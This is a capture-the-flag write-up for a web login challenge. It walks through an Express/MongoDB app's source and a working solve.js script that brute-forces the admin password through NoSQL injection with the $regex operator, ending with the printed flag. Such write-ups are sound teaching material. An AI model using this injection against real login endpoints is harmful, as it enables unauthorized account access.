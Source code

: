 # Challenge name : Login
### Category : Web

### Description

> Our admin belives his app is secure, please prove him wrong.


# Writeup
Author :[ Apoova Pendse](https://github.com/apoorvapendse)

## Recon 

Let's run ```nmap``` to find what we can:
![Alt text](image.png)

##### So, its a node.js application, noice..

Let's see the website
![Alt text](image-1.png)

nothing fancy...

### /index.js
![Alt text](image-2.png)

Basic express setup,hmm

### /database/db.js

![Alt text](image-3.png)

**Its clear that he's using MongoDB for the database by the mongoose import**


### /router/router.js
![Alt text](image-4.png)

### /controllers/login.js
![Alt text](image-5.png)

*It will be hard to do some NoSQL injection, because database is not queried directly - but with some mongoose models.*

*For now let's remember that application uses Schema.find method to search in a user collection, giving username and password properties that are received in the POST request body.*

*Also, worth remembering that API returns {logged: int, message: string} JSON.*


### /model/User.js
![Alt text](image-6.png)
Boilerplate ```Users``` model from ```Users``` collection registration.


This can be exploited using regex query since login checks username and password.

**Reference:** https://www.mongodb.com/docs/manual/reference/operator/query/regex/

As the description says admin, lemee try with username as admin

![Alt text](image-7.png)

The username is definitely ```admin```

So now all i have to do is figure characters step by step using the wildcard 

### solve.js
```javascript
const url = "https://login.ctf.teamquark.com/api/login";
let flag = "";
const allCharacters =
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^()@_{}";

async function solve() {
  while (true) {
    for (let i = 0; i < allCharacters.length; i++) {
      let currentChar = allCharacters[i];
      const passwordQuery = `^${flag}${currentChar}.*$`;
      const apiBody = {
        username: "admin",
        password: { "$regex": passwordQuery }
      };

      const response = await fetch(url, {
        method: "POST",
        headers: {
          "Content-type": "application/json",
        },
        body: JSON.stringify(apiBody),
      });

      const data = await response.json();
      if (data.logged == 1) {
        flag += currentChar;
        console.log(flag);
        if (currentChar === "}") 
        {
            console.log("Flag found:", flag);
            return;
        }

      }
    }
  }
}

solve();

```

This will append and test response for every char until we get the flag 

output:
```bash
$ node sol.js
q
qu
qua
quar
quark
quarkC
quarkCT
quarkCTF
quarkCTF{
quarkCTF{n
quarkCTF{n0
quarkCTF{n0s
quarkCTF{n0sq
quarkCTF{n0sqL
quarkCTF{n0sqL_
quarkCTF{n0sqL_s
quarkCTF{n0sqL_su
quarkCTF{n0sqL_sur
quarkCTF{n0sqL_sur3
quarkCTF{n0sqL_sur3_
quarkCTF{n0sqL_sur3_i
quarkCTF{n0sqL_sur3_i5
quarkCTF{n0sqL_sur3_i5_
quarkCTF{n0sqL_sur3_i5_f
quarkCTF{n0sqL_sur3_i5_fu
quarkCTF{n0sqL_sur3_i5_fun
quarkCTF{n0sqL_sur3_i5_fun}
Flag found: quarkCTF{n0sqL_sur3_i5_fun}
```

And There We Have The Flag!